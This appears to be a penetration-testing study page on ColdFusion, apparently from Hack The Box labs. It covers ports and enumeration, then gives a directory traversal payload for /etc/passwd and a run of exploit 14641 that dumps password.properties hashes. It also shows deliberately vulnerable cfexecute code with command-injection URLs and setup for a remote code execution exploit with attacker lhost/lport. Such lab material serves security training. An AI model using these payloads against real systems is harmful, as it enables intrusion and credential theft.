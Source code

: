 # ColdFusion

Coldfusion is a Java-based Programming Language and Web App development platform used to build dyanmic and interactive web applications that can be integrated with various API's and databases.

CMFL 9ColdFusion Markup Language) is the proprietary language used by Coldfusion with a similar syntax to HTML. It uses tags and functions within the CMFL reducing the amount of code needing to be written. For example cfquery can execute SQL satements:

```html
<cfquery name="myQuery" datasource="myDataSource">
  SELECT *
  FROM myTable
</cfquery>
```

cfloop can loop through data that was retrieved via cfquery:

```html
<cfloop query="myQuery">
  <p>#myQuery.firstName# #myQuery.lastName#</p>
</cfloop>
```

cfloop supports other programming languages i.e java and javascript as well.

Colfusion has had a number of CVE's:

1. CVE-2021-21087: Arbitrary disallow of uploading JSP source code
2. CVE-2020-24453: Active Directory integration misconfiguration
3. CVE-2020-24450: Command injection vulnerability
4. CVE-2020-24449: Arbitrary file reading vulnerability
5. CVE-2019-15909: Cross-Site Scripting (XSS) Vulnerability

#### ColdFusion Ports:

| Port Number | Protocol       | Description                                                                                                                                                            |
| ----------- | -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 80          | HTTP           | Used for non-secure HTTP communication between the web server and web browser.                                                                                         |
| 443         | HTTPS          | Used for secure HTTP communication between the web server and web browser. Encrypts the communication between the web server and web browser.                          |
| 1935        | RPC            | Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device. |
| 25          | SMTP           | Simple Mail Transfer Protocol (SMTP) is used for sending email messages.                                                                                               |
| 8500        | SSL            | Used for server communication via Secure Socket Layer (SSL).                                                                                                           |
| 5500        | Server Monitor | Used for remote administration of the ColdFusion server.                                                                                                               |

### Enumeration

Port Scanning - Typically uses default HTTP ports, nmap may be able to identify coldfusion services.

File Extensions - Typically uses .cfm or .cfc file extensions, pages with these extensions indicate a coldfusion environment&#x20;

HTTP headers - "Server: ColdFusion" or "X-Powered-By: ColdFusion"

Error Messages - May contain references to coldfusion specific tags or functions&#x20;

Default Files - such as "admin.cfm" or "CFIDE/administrator/index.cfm"

### Attacking Coldfusion

#### Known vulnerabilities&#x20;

Always check for known vulnerabilties.

```shell-session
searchsploit adobe coldfusion
```

#### Directory Traversal

`CVE-2010-2861` is the `Adobe ColdFusion - Directory Traversal` exploit discovered by `searchsploit`. It is a vulnerability in ColdFusion that allows attackers to conduct path traversal attacks.

* `CFIDE/administrator/settings/mappings.cfm`
* `logging/settings.cfm`
* `datasources/index.cfm`
* `j2eepackaging/editarchive.cfm`
* `CFIDE/administrator/enter.cfm`

These ColdFusion files are vulnerable to a directory traversal attack in `Adobe ColdFusion 9.0.1` and `earlier versions`. Remote attackers can exploit this vulnerability to read arbitrary files by manipulating the `locale parameter` in these specific ColdFusion files.

example payload:

```
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd

```

Exploitation:

<pre><code>searchsploit -p 14641
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
python2 14641.py
<strong>    usage: 14641.py &#x3C;host> &#x3C;port> &#x3C;file_path>
</strong>    example: 14641.py localhost 80 ../../../../../../../lib/password.properties
    if successful, the file will be printed
    
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6&#x26; \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
...
</code></pre>

password.properties: configuration file in ColdFusion that stores encypted passwords for services and resources that coldfusion uses. These can be used for database connections, mail servers, ldap, etc. The file is usually in the `[cf_root]/lib` directory and can be managed through the ColdFusion Administrator.

{% embed url="https://www.rapid7.com/db/modules/auxiliary/gather/coldfusion_pwd_props/" %}

#### Un-Authenticated RCE&#x20;

Can be introduced by poor coding of the CF web application like so:

```html
<cfset cmd = "#cgi.query_string#">
<cfexecute name="cmd.exe" arguments="/c #cmd#" timeout="5">

http://www.example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
```

#### CVE-2009-2265  Adobe ColdFusion 8 - Remote Command Execution (RCE)

```shell-session
searchsploit -p 50057
cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .

#set target info 
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex

python3 50057.py 
```

